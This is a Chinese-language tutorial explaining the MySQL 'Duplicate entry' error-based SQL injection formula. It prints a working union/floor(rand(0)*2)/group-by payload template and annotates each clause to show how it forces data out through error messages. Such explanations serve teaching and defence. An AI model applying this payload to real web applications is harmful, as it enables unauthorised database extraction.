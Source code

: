# MySQL注入-重复条目报错回显注入公式原理分析

网上对于DuplicateEntry报错回显注入公式一般是如下的形式
```SQL
1' and 1=2 union select 1 from (select count(*),concat(floor(rand(0)*2),(单值式爆破语句))a from information_schema.tables group by a)b#
```


注入后数据库最终执行的语句类似以下格式：
```SQL
SELECT ... 
FROM ... 
WHERE id= '1' and 1=2
UNION
SELECT 1
FROM (
    SELECT 
        COUNT(*),
        CONCAT(
            FLOOR(RAND(0)*2),
            ( 单值式注入语句 ) 
        )a  
    FROM information_schema.tables  
    GROUP BY a 
) b--
```

这个公式有3个要点

1. 构造布尔断路引发的并联查询，目的是断路掉前面的查询，把查询流程完全引导到并联查询（union）语句中离去。payload为：
a' and 1=2 union select 
2. 嵌套优先报错的from子查询：由于并联查询(union)要求前后的列数目一致，需要把先执行的子查询中的duplicate entry错误抢在union select的列数不一致错误之前触发。这样列数多少就无关紧要了——因为代码永远不会执行到那就提前报错了。攻击载荷结构为: uinon
select 1 from ( 会产生duplicate entry的子查询语句 )b -- 。这里MySQL要求派生表必须提供别名（"Every derived table must have its own alias"），否则报错 
3. 构造产生duplicate entry错误的查询。

为什么会产生Duplicate entry错误呢？ 

知乎上[路西法同学对Duplicate entry的产生原因](http://www.zhihu.com/question/21031129)分析非常清晰。根据MySQL手册，rand()不可以作为ORDER BY的条件字段， 同理也不可以为group by的。上面这个mysql的bug的主要问题是获取的值不确定又可重复。同时又要来操作结果。值得注意的是，如果没有重新刷一次结果（例子中用的是count(*)来统计结果），单纯以rand制造会重复的不确定数也是没有效果的，如去掉count(*),那么也不会报错 ，所以使用left(rand(),3)之类的也是可以的（会产生会重复不确定的数）
整理这段注入代码的构造思路如下：

```SQL
...
WHERE id= '1' and 1=2
UNION
SELECT 1
FROM (
    SELECT 
        COUNT(*),    ##刷新
        CONCAT(      ##制造具有随机名称的字段
            FLOOR(RAND(0)*2),    ##制造随机数
            ( 单值式注入语句 )   ##真正需要执行的SQL指令，必须是单值式SQL命令
        )a           ##为制造出来的随机字段创建别名
    FROM information_schema.tables  
    GROUP BY a       ##利用制造出来的随机字段分组
) b--                ##MySQL要求派生表必须提供别名
```


 

 
